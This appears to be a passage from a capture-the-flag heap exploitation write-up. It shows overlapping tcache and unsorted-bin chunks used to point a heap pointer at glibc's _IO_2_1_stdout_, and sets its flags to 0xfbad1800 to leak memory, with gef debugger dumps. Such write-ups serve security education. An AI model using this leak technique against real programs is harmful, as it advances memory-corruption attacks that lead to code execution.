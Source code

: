 Doing that so, we get the `_IO_2_1_stdout_` address populated to the `heap_chunks` global array at the index `3`, this happened because when we allocated the chunk of size `0x4f0` that made the all the chunks which we `free`'d belonging to the `tcache` bin as they overlapped into the `unsorted` bin result in the `free`'d chunks also being populated with the `main_arena` address. So, when we allocate a chunk of size `0x90` will be given from the `unsorted` bin, from the overlapped region, hence we could overwrite the last 4 bits of the address and made it point to the `_IO_2_1_stdout_`:-

```r
gef➤  x/10xg 0x56431531d050
0x56431531d050:	0x0000000000000000	0x0000000000000000
0x56431531d060:	0x0000564316c8f260	0x0000564316c8f760
0x56431531d070:	0x0000564316c8f7d0	0x0000564316c8f760
0x56431531d080:	0x00007fa0293a0760	0x0000564316c8fd30
0x56431531d090:	0x0000000000000000	0x0000000000000000
gef➤  p &_IO_2_1_stdout_ 
$51 = (struct _IO_FILE_plus *) 0x7fa0293a0760 <_IO_2_1_stdout_>
```

Now, what we will do here is make the `flag` to be `0xfbad1800` and the associating member of the `struct` to be of the NULL, hence resulting in the next `puts` call, which will call the `_IO_new_file_xsputn` hence, giving a huge buffer dump:-

```r
gef➤  p _IO_2_1_stdout_ 
$52 = {
  file = {
    _flags = 0xfbad1800, 
    _IO_read_ptr = 0x7fa0293a07e3 <_IO_2_1_stdout_+131> "\n", 
    _IO_read_end = 0x7fa0293a07e3 <_IO_2_1_stdout_+131> "\n", 
    _IO_read_base = 0x7fa0293a07e3 <_IO_2_1_stdout_+131> "\n", 
    _IO_write_base = 0x7fa0293a07e3 <_IO_2_1_stdout_+131> "\n", 
    _IO_write_ptr = 0x7fa0293a07e3 <_IO_2_1_stdout_+131> "\n", 
    _IO_write_end = 0x7fa0293a07e4 <_IO_2_1_stdout_+132> "", 
    _IO_buf_base = 0x7fa0293a07e3 <_IO_2_1_stdout_+131> "\n", 
    _IO_buf_end = 0x7fa0293a07e4 <_IO_2_1_stdout_+132> "", 
    _IO_save_base = 0x0, 
    _IO_backup_base = 0x0, 
    _IO_save_end = 0x0, 
    _markers = 0x0, 
    _chain = 0x7fa02939fa00 <_IO_2_1_stdin_>, 
    _fileno = 0x1, 
    _flags2 = 0x0, 
    _old_offset = 0xffffffffffffffff, 
    _cur_column = 0x0, 
    _vtable_offset = 0x0, 
    _shortbuf = "\n", 
    _lock = 0x7fa0293a18c0 <_IO_stdfile_1_lock>, 
    _offset = 0xffffffffffffffff, 
    _codecvt = 0x0, 
    _wide_data = 0x7fa02939f8c0 <_IO_wide_data_1>, 
    _freeres_list = 0x0, 
    _freeres_buf = 0x0, 
    __pad5 = 0x0, 
    _mode = 0xffffffff, 
    _unused2 = '\000' <repeats 19 times>
  }, 
  vtable = 0x7fa02939c2a0 <_IO_file_jumps>
}
```
